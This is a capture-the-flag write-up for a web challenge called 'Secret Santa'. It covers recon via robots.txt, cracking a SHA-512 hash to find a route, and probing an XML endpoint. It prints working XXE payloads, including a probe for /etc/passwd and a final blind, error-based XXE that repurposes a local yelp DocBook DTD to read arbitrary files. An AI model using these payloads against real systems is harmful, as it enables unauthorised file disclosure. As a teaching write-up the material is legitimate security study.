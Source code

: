 # Secret Santa

On viewing the website, we are given a clue that the route is with the bots. Hence, examining `/robots.txt` we get:

```
The 512th route to your secret santa is d21023fb2949d11633959fa17135894b973c9516aa3b088f5e1fe0c0425c1f746377ff99bf674628e54dd37d99d04649f9bb621f34894be3daf4cf60484088c8
```

which is a clear indication that the route is hashed with sha512 hash, cracking the hash in [crackstation](https://crackstation.net/), we get the route,

```
pragyan
```

Now if we visit the page `/pragyan`, we see some content written about XML, which indicates a  possible XML Vulnerability. We get the backend route for our exploit by just looking at the requests that are being sent when we load the page, where we find that some sample json is being sent to `you_know_who` route.

```
{
    "message":"hi"
}
```

By Sending sample json we get the error message:

```
This data format is not supported for your gift
```

Now, if we try sending sample XML data like this,

```
<gift>Hi</gift>
```

We get an error saying:

```
Validation failed: no DTD found !, line 1, column 6 (
<string>, line 1)
```

Which implies that it accepts XML only with DTD.

Now, lets try to send a payload with a Doctype,

```
<!DOCTYPE message [
    <!ELEMENT message (#PCDATA)>
    <!ENTITY id 'hello'>
]>
<message>&id;</message>
```

which returns,

```
Sorry, the XML parser didn't return anything

```
which means the XML parser broke while parsing our DTD, lets now try to load an external url,

```
<!DOCTYPE gift [
    <!ENTITY % dtd SYSTEM "https://www.google.com/">
    %dtd;
]>

```

we get the error message:

```
failed to load external entity "https://www.google.com/", line 4, column 10 (
<string>, line 4)
```

But if we try to load internal resources like /etc/passwd, we get the error,

```
internal error: xmlParseInternalSubset: error detected in Markup declaration
, line 1, column 1 (passwd, line 1)
```

which indicates that the file was loaded properly, but couldn't be displayed due to some markup error.

This could be exploited by performing an Out of Band XXE attack using local dtds, because we were unable to load external dtds, but the xml parser was able to parse local files. We also got back the external resource name, when the XML parser tried to load it, which can be exploited to perform a blind XXE.

If we tried to read any other local dtds other than the one at yelp, we get the error,

```

I know you've all survived the biggest apocalypse, but you need to survive the yelpocalypse
```

which forces us to use the dtd only from yelp.

We can use any external entity available in docboox.dtd to craft our exploit.
So, first we tried to read the file that we want, and then we tried to read another file whose name would be the contents of the first file. Since there is no file with the name as the contents of the first file, we get an error message with the file name, and hence we get the contents of the first file and we get Arbitrary File Read via blind XXE.

So, our final payload would be,

```
<!DOCTYPE wonder [
    <!ENTITY % dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///gift">
        <!ENTITY &#x25; ent1 "<!ENTITY &#x26;#x25; ent2 SYSTEM &#x27;file:///dummy/&#x25;file;&#x27;>">
        &#x25;ent1;
        &#x25;ent2;
    '>

    %dtd;
]>
<wonder>CTFs are cool</wonder>
```

On sending this payload, the server returns the flag

```
p_ctf{heR3_iS_Y0ur_9Ift}
```
